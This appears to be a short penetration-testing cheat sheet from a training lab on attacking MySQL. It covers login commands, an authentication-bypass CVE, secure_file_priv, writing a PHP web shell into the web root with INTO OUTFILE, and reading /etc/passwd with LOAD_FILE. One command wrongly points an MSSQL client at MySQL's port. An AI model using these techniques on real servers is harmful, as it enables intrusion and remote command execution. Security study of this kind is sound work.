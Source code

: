 [Different Authentication methods](https://dev.mysql.com/doc/dev/mysql-server/latest/)

### MySQL 5.6.x
[CVE-2012-2122](https://www.trendmicro.com/vinfo/us/threat-encyclopedia/vulnerability/2383/mysql-database-authentication-bypass)
Auth By pass
### Read / Change the Database 
```shell
mysql -u julio -pPassword123 -h 10.129.20.13
```

```shell
mssqlclient.py -p 3306 julio@10.129.203.7 
```

### MySQL default system schemas/databases:

- `mysql` - is the system database that contains tables that store information required by the MySQL server
- `information_schema` - provides access to database metadata
- `performance_schema` - is a feature for monitoring MySQL Server execution at a low level
- `sys` - a set of objects that helps DBAs and developers interpret data collected by the Performance Schema

### [Secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv)
Limits effect of data import and export 

`secure_file_priv` may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

```mysql
show variables like "secure_file_priv";
```
### Write Local Files
```shell
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

### Read  Files
```mysql
select LOAD_FILE("/etc/passwd");
```

